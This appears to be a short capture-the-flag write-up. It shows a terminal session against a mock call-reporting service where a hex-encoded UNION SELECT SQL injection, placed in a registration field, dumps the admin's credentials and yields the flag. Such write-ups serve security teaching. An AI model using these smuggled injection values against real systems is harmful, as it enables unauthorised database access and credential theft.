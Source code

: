     guest ~ $ REGISTER
    Please fill the informations below :

    Login : i
    Firstname : i
    Lastname : i
    Contact (DESK PHONE) : 0x3120554e494f4e2053454c454354206c6f67696e2c70617373776f72642c7269676874732c6e756c6c2046524f4d207573657273205748455245207269676874733d2761646d696e27
    Password : i
    Encrypting using 128x(ROT13) ......HAAAAAAAAX......
    Password encryption done ! (Security First) !

    i ~ $ HISTORY
    RAPTOR CALL REPORTING
    - CLIENT INFO :

    +-----------+---------------------------------------------------------------------------+
    |  USERNAME |                                     i                                     |
    |   RIGHTS  |                                    user                                   |
    | DESKPHONE | 1 UNION SELECT login,password,rights,null FROM users WHERE rights='admin' |
    +-----------+---------------------------------------------------------------------------+

     - CALL HISTORY

    +-------------+------------+-------------+----------+
    |      ID     |    DATE    | DESTINATION | DURATION |
    +-------------+------------+-------------+----------+
    | w.eshmaggle | Hanlbatard |    admin    |   None   |
    +-------------+------------+-------------+----------+

We login as the admin user and user the `RSHELL` command:

    guest ~ $ AUTH w.eshmaggle Hanlbatard
    Welcome w.eshmaggle !
    w.eshmaggle ~ $ RSHELL
    Ok, ok good job. You are admin... The flag is : 0eb80d9c2cdee95b461cf0b70d40791f

**Flag: 0eb80d9c2cdee95b461cf0b70d40791f**
